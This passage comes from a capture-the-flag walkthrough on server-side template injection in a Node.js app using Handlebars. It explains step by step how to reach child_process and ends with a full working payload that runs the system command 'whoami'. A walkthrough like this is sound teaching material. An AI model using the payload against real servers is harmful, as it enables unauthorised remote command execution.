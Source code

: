 In the third payload, we managed to retrieve the ```mainModule``` property of the ```process``` object. This was a pivotal step because it hinted that we might be able to access core functionalities of the Node.js application, outside the restricted environment.

The newest, fourth payload builds on that success by attempting to use the ```require``` function from the ```mainModule``` object. Specifically, it tries to load the ```child_process``` module, which is a built-in Node.js module that allows for the execution of system commands. This is a crucial leap forward because it potentially enables command execution on the target system.

Here's what changed:

From ```process.mainModule``` to ```process.mainModule.require('child_process')```: The third payload simply returned the ```mainModule``` object, confirming it was accessible. The fourth payload takes the next logical step by invoking ```require``` on ```mainModule``` to load the ```child_process``` module, which is a powerful tool for interacting with the operating system.

By loading ```child_process```, we can now execute system commands directly from this payload. This gives us a lot more control, potentially allowing for remote code execution (RCE), which is one of the most sought-after outcomes when exploiting SSTI vulnerabilities.

In summary, while the third payload was about verifying access to a critical part of the Node.js runtime, the fourth payload takes action based on that access, attempting to load a module that could let us execute arbitrary commands. This step is moving us closer to a full exploit, where we might soon be able to execute commands on the target server—possibly leading to a reverse shell.

And now back to the official write-up: *After URL encoding and sending the payload, we get the following response from the server:*

```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object Object]
```

*The ```require``` object has been called successfully and the ```child_process``` module loaded. Let's now attempt to run system commands:*

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
